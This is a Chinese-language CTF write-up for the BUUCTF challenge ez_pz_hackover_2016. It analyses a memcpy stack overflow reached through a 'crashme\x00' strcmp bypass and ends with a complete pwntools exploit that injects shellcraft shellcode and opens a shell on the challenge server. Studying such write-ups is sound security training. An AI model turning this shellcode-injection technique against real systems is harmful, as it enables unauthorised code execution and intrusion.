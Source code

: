 调用了3个函数，第一个是初始化，分别打开下面两个看看

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202203191004356.png" alt="image-20220318170205236" style="zoom:80%;" />

这是提醒页面，没有注入点

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202203181703564.png" alt="image-20220318170310505" style="zoom:80%;" />

远程nc看一下

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202203181704214.png" alt="image-20220318170457166" style="zoom:80%;" />

分析代码，可以看到输入点是fgets函数，除此之外，在代码中第16行打印出来后，使用了strcmp函数把输入的s和字符串"crashme"比较，结果赋值给result，如果result为0的话，调用vuln函数，显然对于strcmp函数可以让s字符串开头为"crashme\x00"来绕过

点进去看看vuln函数

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202203191004343.png" alt="image-20220318171609240" style="zoom:80%;" />

返回时调用了memcpy函数

百度解释：memcpy指的是C和C++使用的内存拷贝函数，函数原型为void *memcpy(void *destin, void *source, unsigned n)；函数的功能是从源内存地址的起始位置开始拷贝若干个字节到目标内存地址中，即从源source中拷贝n个字节到目标destin中。故相当于我们的参数s中拷贝0x400个字节到dest中，dest的大小只有0x32，存在溢出漏洞
构造思路：在s里面写入用python生成的shellcode，并在开头加入"crashme\x00"绕过下面的判断，调用vuln函数后让dest产生溢出劫持返回地址到之前存放shellcode的地址去执行。

先用gdb动态调试寻找一下存放的shellcode在栈上的位置。

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202203181723367.png" alt="image-20220318172335314" style="zoom:80%;" />

在vuln函数最后下一个断点，好观察

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202203191004534.png" alt="image-20220318181157621" style="zoom:80%;" />

可以看到ebp距离我们的输入点的距离是0x38-0x22，0x20还有俩字母('c'和'r')，所以说是0x22

而字符串"crashme\x00"占用8个字节，看到ebp压进栈，所以还需要加上4(32位)。

对于shellcode地址的问题，可以看到栈上相对的返回地址是0x3c(ebp+4)，输入点距离返回地址是0x3c-0x20=0x1c 。而一开始得到的地址是0xffffcc7c，可以用0xffffcc7c-0x1c表示返回地址

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202203181835395.png" alt="image-20220318183528340" style="zoom:80%;" />

exp

```python
from pwn import*

context(log_level='debug',os='linux',arch='i386')
#elf=ELF(...)
io=remote('node4.buuoj.cn',29441)
#io=process('/home/kali/文档/题目/pwn/BUUCTF/ez_pz_hackover_2016')

io.recvuntil('crash: ')
stack=int(io.recv(10),16)	#接收到的数据是16进制的，在上面的nc可以看出来
print(hex(stack))	#打印出来看看是不是一样的
shellcode=asm(shellcraft.sh())

payload=b'crashme\x00'+b'a'*(0x16-8+4)+p32(stack-0x1c)+shellcode
io.sendline(payload)
io.interactive()
```
